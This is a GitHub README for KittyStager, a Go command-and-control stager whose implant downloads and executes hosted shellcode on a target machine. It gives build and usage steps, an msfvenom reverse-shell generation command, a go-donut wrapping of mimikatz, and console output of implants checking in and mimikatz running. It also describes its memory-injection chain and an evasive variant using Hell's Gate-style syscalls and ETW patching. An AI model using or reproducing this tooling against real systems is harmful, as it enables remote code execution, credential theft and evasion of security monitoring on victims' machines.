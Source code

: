 # KittyStager


<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="./img/chat.png"> </a>
</p>


KittyStager is a simple stage 0 C2. It is made of a web server to host the shellcode and an implant, called kitten.
The purpose of this project is to be able to have a web server and some kitten and be 
able to use the with any shellcode.

**I would not use this project in red team, at least not now.**



## Content
- [How it works](#how-it-works)
- [Quick start](#quick-start)
- [Kitten](#Kitten)
- [Project structure](#project-structure)


## How it works

1. Configure all the settings in the config file
2. Start the server
    1. The server will start
    2. A config file will be created with each kitten
    3. It will configure the sleep time for the kitten
3. Compile the kitten
4. Run the kitten

![](/img/workfow.svg)

## Quick start
How to compile
```
go build -o kittyStager
./kittyStager

cd /kitten/basickitten
go build -o basickitten
./basickitten
```
How to use :
Generate a shellcode. It works with any shellcode in bin format or in hex format.
```
msfvenom -p windows/x64/shell_reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
go-donut.exe -i mimikatz.exe
```
```
~kittyStager ❯.\kittyStager.exe -p path/to/config/file
                     _
                    / )
                   ( (
     A.-.A  .-""-.  ) )
    / , , \/      \/ /
   =\  t  ;=    /   /
     `--,'  .""|   /
         || |  \\ \
        ((,_|  ((,_\

KittyStager - A simple stager written in Go

[+] Config loaded
[+] Generated conf file for C:\Users\yanng\go\Project_go\GoStager\kitten\basicKitten
[+] Generated conf file for C:\Users\yanng\go\Project_go\GoStager\kitten\bananaKitten
[+] Config file generated
[+] Starting http server
[+] Sleep set to 5s on all targets
[+] Started http server on 127.0.0.1:8080

KittyStager 🐈❯
[+] Request from: 127.0.0.1
[+] User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/102.0
[+] Hostname: TARGET
[+] Username: target
[+] To get more, use the recon 

KittyStager 🐈❯ interact
[*] Targets:
0 - all targets
1 - 127.0.0.1

[*] Please enter the id of the target
id: 1

KittyStager - 127.0.0.1 🐈❯ shellcode
[*] Please enter the path to the shellcode
Path: ..\..\shellcode\shellcode.bin
[+] Key generated is : TARGETTARGETTARGETTARGETTARGET
[+] Shellcode hosted for 127.0.0.1 
```
It also works with donuts shellcodes
```
~basicKitten ❯ .\basicKitten.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

## [Kitten](/kitten/)
The kitten is the stage 0 payload. It will be compiled and run on the target machine. The kitten will then download the shellcode and execute it.
For the moment, they are only two kittens:
### [BasicKitten](/kitten/basicKitten)
This is the basic kitten, and it has the minimum to work. No fancy injection method, just a 
`VirtualAlloc` -> `RtlCopyMemory` -> `VirtualProtect` -> `CreateThread` -> `WaitForSingleObject`. Use this as example if you want to develop your own kitten.
### [BananaKitten](/kitten/bananaKitten)
This is the more advanced kitten. It will use bananaphone, a variant of hell's gate implemented in Go. [https://github.com/C-Sto/BananaPhone](https://github.com/C-Sto/BananaPhone)
It also patches etw. 

## Project structure
### [kitten](/kitten)
This is the folder where all the kittens are stored. Each kitten has its own folder.
### [cmd](/cmd)
#### [kittyStager](/cmd/kittyStager)
Main file of the project. It will start the server and create the config file for each kitten.
#### [config](/cmd/config)
Used to read and check the config file. The config file is `conf.yml`
#### [http](/cmd/http)
Used to start the server and serve the shellcode.
#### [cli](/cmd/cli)
This is the cli to interact with the server.
#### [interact](/cmd/interact)
This is the cli to interact with a kitten, select a shellcode or change sleep time. 
#### [util](/cmd/util)
It contains all the util functions used in the project.
#### [cryptoUtil](/cmd/cryptoUtil)
It contains all the util functions used to encrypt and decrypt the shellcode.
#### [httpUtil](/cmd/httpUtil)
It contains all the util functions used to interact with the server.
#### [malwareUtil](/cmd/malwareUtil)
It contains all the functions used only by the kittens